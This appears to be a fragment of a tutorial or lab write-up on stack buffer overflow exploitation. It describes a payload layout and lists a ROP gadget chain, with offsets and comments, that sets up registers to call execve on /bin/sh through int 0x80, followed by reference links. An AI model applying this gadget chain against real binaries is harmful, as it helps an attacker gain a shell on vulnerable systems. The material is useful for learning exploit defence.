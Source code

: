 The first part of the payload will be the same, because it triggers the overflow, and then the stack should look like:

ROP addr1
ROP addr2
....
ROP addrN
STRING ADDR
STRING


I have a new approach!

0x00001a9e : pop edx ; ret					# setup the stack to contain 0x00000000 to edx 			
0x0003900e : and al, 8 ; add esp, 0xc ; ret			# modify esp to jump over our /bin/sh\x00DDDD < junk at the end
0x000c24f7 : push esp ; xor eax, eax ; pop ebx ; pop ebp ; ret	# moving esp to ebx
0x0012acce : dec ebx ; ret 					# x16 tho, because that's the offset between our string and ebx
0x000caf24 : add ecx, ebx ; ret					# set ecx = ebx
0x00097193 : mov eax, 0xb ; int 0x80 				# setup the interrupt


[1] - https://stackoverflow.com/a/17775966/1366384
[2] - https://www.coengoedegebure.com/buffer-overflow-attacks-explained/
[3] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Nonexecutable_stack
[4] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
[5] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Randomization
[6] - https://www.shellblade.net/files/docs/ret2libc.pdf